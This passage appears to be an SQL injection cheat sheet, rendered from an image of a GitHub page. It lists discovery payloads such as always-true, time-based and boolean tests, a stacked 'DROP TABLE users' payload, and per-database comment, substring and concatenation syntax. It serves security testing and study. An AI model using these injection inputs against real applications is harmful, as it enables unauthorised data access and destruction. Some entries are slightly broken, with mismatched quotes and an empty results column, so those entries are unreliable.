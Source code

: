 ### **Initial Tests (Discovery Phase)**

| Action | Payload / Example | Notes |
| --- | --- | --- |
| Basic test for SQLi | `'` or `"` or `;--` | Look for errors or behavior change |
| Comment rest of query | `' --`  or `"#` or `' /*` | Comments vary by DB |
| Numeric test | `1 OR 1=1` | Works if param is numeric |
| String test | `' OR 'a'='a` | Tests injection into string context |
| Time-based test | `' OR SLEEP(5)--` | Useful in Blind SQLi |
| Boolean test | `' AND 1=1 --` vs `' AND 1=2 --` | Helps confirm Blind SQLi |
| Statement stacking | `1; DROP TABLE users; --` | Only in some DBs like MSSQL, PostgreSQL, not in MySQL by default |

### **Comment Syntax per DBMS**

| DBMS | Comment Syntax |
| --- | --- |
| MySQL | `--` , `#`, `/* */` |
| MSSQL | `--`, `/* */` |
| Oracle | `--`, `/* */` |
| PostgreSQL | `--`, `/* */` |
| SQLite | `--`, `/* */` |

Always add a **space** after `--` for MySQL.

### Substring Extraction

| DBMS | Syntax | Result for input `'foobar', 4, 2` → `ba` |
| --- | --- | --- |
| Oracle | `SUBSTR('foobar', 4, 2)` |  |
| Microsoft | `SUBSTRING('foobar', 4, 2)` |  |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |  |
| MySQL | `SUBSTRING('foobar', 4, 2)` |  |

### String Concatenation

| DBMS | Syntax |
| --- | --- |
| Oracle | `'foo'||'bar’` |
| Microsoft | `'foo'+'bar'` |
| PostgreSQL | `'foo'||'bar’` |
| MySQL | `'foo' 'bar'` or `CONCAT('foo','bar')` |
